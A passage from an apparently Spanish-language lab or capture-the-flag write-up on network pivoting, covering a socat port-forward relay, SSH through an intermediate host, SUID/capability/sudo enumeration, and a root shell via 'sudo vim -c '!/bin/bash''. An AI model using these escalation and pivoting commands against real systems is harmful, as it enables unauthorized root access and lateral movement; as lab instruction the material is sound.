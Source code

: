 - `TCP-LISTEN`: Escucha por el puerto `443`
- `fork`: Acepta varias conexiones TCP
- `TCP`: Envía los datos recibidos a `20.20.20.3` al puerto `22` remoto
En este momento desde nuestra máquina atacante podemos llegar al puerto `22` de la máquina `20.20.20.3` pasando primero por `10.10.10.2`

~~~ bash
ssh mario@10.10.10.2 -p 443
~~~

- `-p`: Puerto de la máquina remota que usaremos en la conexión 

![Pasted image 20241016223356](https://github.com/user-attachments/assets/4b722927-57ac-4967-8878-917657cb19e4)



# Escalada de privilegios 20.20.20.3 (Trust)
---
## (Posible) Escalada de privilegios

Una vez dentro de la máquina, buscaremos archivos con privilegios `suid`, buscaremos también `capabilities`, pero no obtenemos gran cosa. Otra cosa que haremos será listar los privilegios `sudo`, y encontramos lo siguiente

~~~ bash
# Buscar archivos con privilegios SIUD
find / -perm /4000 2>/dev/null

# Listar capabilities
getcap -r 2>/dev/null

# Listar privilegios sudo
sudo -l 
~~~

![sudoers](https://github.com/user-attachments/assets/b7d62105-bdeb-41aa-94ca-35982cbcf038)

## Sudo Vim

Tenemos privilegios para ejecutar `vim` como el usuario `root`, podemos ejecutarnos una `bash` con el siguiente comando

~~~ bash
sudo vim -c '!/bin/bash'
~~~

![Pasted image 20241016223910](https://github.com/user-attachments/assets/71d7f61c-cf85-414b-a7ea-eeb654443309)

Vemos otra IP perteneciente a la red `30.30.30.2` en nuestra máquina, por lo que haremos un escaneo de la red para ver si se encuentra algún host activo

~~~ bash
hostname -I
~~~
